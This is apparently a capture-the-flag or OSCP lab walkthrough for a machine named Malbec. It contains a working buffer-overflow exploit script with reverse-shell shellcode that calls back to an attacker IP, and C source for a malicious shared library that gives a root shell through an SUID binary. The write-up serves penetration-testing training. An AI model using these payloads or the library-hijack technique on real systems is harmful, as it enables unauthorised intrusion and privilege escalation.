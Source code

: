 # Malbec

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.240.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:44 +08
Nmap scan report for 192.168.240.129
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
2121/tcp open  ccproxy-ftp
7138/tcp open  unknown
```

We can do a detailed scan on this machine in case.

```
$ sudo nmap -p 22,2121,7138 -sC -sV --min-rate 4000 192.168.240.129                
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 13:45 +08
Nmap scan report for 192.168.240.129
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74ba2023899262029fe73d3b83d4d96c (RSA)
|   256 548f79555ab03a695ad5723964fd074e (ECDSA)
|_  256 7f5d102762ba75e9bcc84fe27287d4e2 (ED25519)
2121/tcp open  ftp     pyftpdlib 1.5.6
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx   1 carlos   carlos     108304 Jan 25  2021 malbec.exe [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.240.129:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
7138/tcp open  unknown
```

Port 2121 is FTP it seems.

### FTP -> Buffer Overflow

FTP allowed for anonymous access and it only had one file:

```
$ ftp 192.168.240.129 -p 2121
Connected to 192.168.240.129.
220 pyftpdlib 1.5.6 ready.
Name (192.168.240.129:kali): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering extended passive mode (|||49067|).
125 Data connection already open. Transfer starting.
-rwxrwxrwx   1 carlos   carlos     108304 Jan 25  2021 malbec.exe
```

We can download this `.exe` file to a Windows machine for some reverse engineering.&#x20;

<figure><img src="../../../.gitbook/assets/image (3567).png" alt=""><figcaption><p><em>Old IP from Old Writeup</em></p></figcaption></figure>

When we check the listening ports on our Windows machine, we would see that `malbec.exe` opens port 7138:

<figure><img src="../../../.gitbook/assets/image (1062).png" alt=""><figcaption></figcaption></figure>

This machine thus becomes a classic buffer overflow exploit as per OSCP. For this particular binary, there weren't any bad characters (other than the NULL byte) and it was just a matter of fuzzing the offset required.&#x20;

I won't be going through how to do it since the OSCP BOF style is prett well-documented already, so here's the final script I used:

```python
#!/usr/bin/python2
import socket

ip = "192.168.240.129"
port = 7138
timeout = 5

pattern = ""
#badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# final badchars are \x00
# msfvenom --payload linux/x86/shell_reverse_tcp LHOST=192.168.45.216 LPORT=21 --format c --bad-chars '\x00'
print ("\nSending evil buffer...")
size = 340
offset = "A"*size #filler
eip = "\x03\x15\x10\x41" #rtn
nop = "\x90" * 162
payload =("\xdb\xcf\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x12\xbf\xc0\xf8"
"\xda\x09\x31\x7a\x17\x03\x7a\x17\x83\x2a\x04\x38\xfc\x9b"
"\x2e\x4a\x1c\x88\x93\xe6\x89\x2c\x9d\xe8\xfe\x56\x50\x6a"
"\x6d\xcf\xda\x54\x5f\x6f\x53\xd2\xa6\x07\xa4\x8c\x74\x0f"
"\x4c\xcf\x86\xaf\x98\x46\x67\x1f\xc4\x08\x39\x0c\xba\xaa"
"\x30\x53\x71\x2c\x10\xfb\xe4\x02\xe6\x93\x90\x73\x27\x01"
"\x08\x05\xd4\x97\x99\x9c\xfa\xa7\x15\x52\x7c")

#buffer = pattern  #for fuzzing offset
#buffer = offset + badchars #for fuzzing bad chars
buffer = offset + eip + nop + payload 


s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,port))
s.send(bytes(buffer + "\r\n".encode("latin-1")))
s.close()
print ("\nDone!")
```

We can run this exploit and get a shell as the user:

```
$ python2 exploit_main.py

Sending evil buffer...

Done!
```

<figure><img src="../../../.gitbook/assets/image (2766).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SUID Binary -> Malicious Library

I ran a `linpeas.sh` scan on the machine, and it found a few interesting things.  Firstly, `root` is running `ldconfig` periodically:

<figure><img src="../../../.gitbook/assets/image (4032).png" alt=""><figcaption></figcaption></figure>

The next was this SUID binary that I didn't recognise:

```
-rwsr-xr-x 1 root root        17K Jan 26  2021 /usr/bin/messenger
```

The last was a misconfiguration of the `ld.so` files:

<figure><img src="../../../.gitbook/assets/image (3234).png" alt=""><figcaption></figcaption></figure>

This was interesting, because it appears that the user's home directory is the part of the configuration, meaning that `.so` files are executed from this directory. We can run `ldd` for the `messenger` binary to check where it loads its shared object files.&#x20;

```
carlos@malbec:/tmp$ ldd /usr/bin/messenger 
        linux-vdso.so.1 (0x00007ffd865bc000)
        libmalbec.so => not found
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f64cb634000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f64cb80a000)
```

So it appears that `libmalbec.so` is not found, and it loads it from `/home/carlos`. This means that we can just create a malicious `libmalbec.so` file that gives us a shell, and since `messenger` is an SUID binary, the shell will be with `root` privileges.&#x20;

Here's the source code I took from HackTricks:

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
// this function name is a result of testing, since it appears that the binary executes a malbec function
// you would get this error if not named properly:
// /usr/bin/messenger: symbol lookup error: /usr/bin/messenger: undefined symbol: malbec
void malbec(){ # the 
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("/bin/sh",NULL,NULL);
}
```
{% endcode %}

We just need to compile this and transfer it to the machine:

```
$ gcc -shared -o libmalbec.so -fPIC exploit.c                            
exploit.c: In function ‘say_hi’:
exploit.c:9:5: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
    9 |     system("/bin/sh",NULL,NULL);
      |  
```

Afterwards, we can wait for `root` to execute `ldconfig`, which would configure the `messenger` binary to use the `libmalbec.so` file we created. Once it does, it will show up in `ldd`:

```
carlos@malbec:/home/carlos$ ldd /usr/bin/messenger
        linux-vdso.so.1 (0x00007ffe3a3e4000)
        libmalbec.so => /home/carlos/libmalbec.so (0x00007f0975667000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f09754a6000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0975681000)
```

Then, we can just execute `messenger` to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (2502).png" alt=""><figcaption></figcaption></figure>
